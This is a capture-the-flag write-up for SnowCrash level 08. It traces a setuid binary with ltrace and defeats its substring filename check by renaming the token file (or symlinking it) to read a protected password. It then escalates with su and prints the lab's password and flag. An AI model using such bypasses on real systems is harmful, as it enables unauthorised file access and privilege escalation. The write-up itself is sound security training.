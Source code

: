 # Level 08

## Vulnerability
Privilege escalation - weak filename check

## Context
```
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

## Solution
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```
Ok lets create a file to read.
```
level08@SnowCrash:~$ echo "oh hi" > /dev/shm/hi
level08@SnowCrash:~$ ./level08 /dev/shm/hi
oh hi
```
Looks like the binary ```level08``` prints the contents of a file given as argument. We don't have permissions to read token directly, will ```level08``` read ```token``` for us?
```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```
Hmm, why not?
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff794, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                    = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                = 27
exit(1 <unfinished ...>
```
It seems like it calls strstr to see if "token" is contained in the filename, and rejects access if true. So what if we simply change the filename? (An alternative is to create a symlink ```ln -s token password```)
```
level08@SnowCrash:~$ mv token password
level08@SnowCrash:~$ ./level08 password
quif5eloekouj29ke0vouxean
```
Great! Lets log in to flag08 and launch getflag.
```
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
